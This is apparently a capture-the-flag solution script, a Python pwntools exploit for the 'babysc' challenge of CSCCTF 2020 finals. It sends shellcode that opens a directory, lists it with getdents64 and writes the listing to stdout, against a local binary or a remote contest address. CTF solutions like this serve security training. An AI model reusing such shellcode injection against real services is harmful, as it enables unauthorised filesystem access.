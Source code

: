 {% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/cscctf2020-final/pwn/babysc/babysc")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ["* main+180"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)

    a = asm(shellcraft.openat(-2, '/home/babysc/').rstrip())
    a += asm('''
            mov rdi,rax
            xor rdx,rdx
            xor rax,rax
            mov dx,0x3210
            lea rsi,[rsp]
            mov al,217
            syscall

            
            mov rax, 1
            mov rdi, 1
            mov rsi, rsp
            mov rdx, 500
            syscall
    ''')

    r.sendline(a)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("139.59.97.212", 23339)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}
